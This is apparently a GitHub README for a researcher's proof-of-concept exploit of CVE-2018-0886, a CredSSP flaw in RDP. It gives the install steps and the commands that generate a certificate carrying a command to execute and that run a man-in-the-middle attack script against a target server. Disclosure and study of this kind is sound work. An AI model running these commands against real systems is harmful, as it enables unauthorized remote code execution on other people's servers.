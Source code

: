 # credssp
A code demonstrating CVE-2018-0886

This is a code used for exploition this vulnerability, and it should be used for educational purposes only.
It relies on a fork of the rdpy project(https://github.com/preempt/rdpy), allowing also credssp relay. 
The code can be found here: 

Written by Eyal Karni, Preempt 
ekarni@preempt.com 

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 
It was tested on Ubuntu 16.04. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```
* It assumes a pretty clean inital state. Best to uninstall first relevant compontants such as cryptography,pyopenssl maybe (pip uninstall cryptography).  
* A different version of openssl needed to be installed for this to run successfully.  The install script does that. 
* Please follow the instructions in the described order. 

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain.


To generate a suitable certificate for the command to execute : 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD 
```

(exploitc.pem ,exploitk.pem are the generated certificate and private key respectively)

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```

More details are in the usage section of the scripts(--help). 
